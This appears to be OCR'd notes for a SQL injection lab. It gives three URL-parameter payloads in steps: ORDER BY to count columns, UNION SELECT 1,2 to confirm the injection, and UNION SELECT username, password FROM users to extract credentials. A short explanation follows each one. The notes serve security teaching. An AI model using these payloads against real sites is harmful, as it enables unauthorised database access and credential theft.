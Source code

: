 1. Find column count
2. `Use UNION SELECT`
3. Extract useful data
 - usernames
 - passwords

### Payload 1

`?id=2 ORDER BY 3 --`
 - increase the number until you get an error
 - the last working number is the column count
 - 2 works but 3 errors → 2 columns

### Payload 2

`?id=2 UNION SELECT 1,2 --`
 - this confirms injection works by showing 1 or 2 in the output

### Payload 3

`?id=2 UNION SELECT username, password FROM users --`
 - replaces original results with values from the users table
- `UNION` combines results from two queries
- `SELECT username, password FROM users` retrieves data we want
- `--` comments out the rest of the original SQL to avoid syntax errors

---

Last Updated 20250414
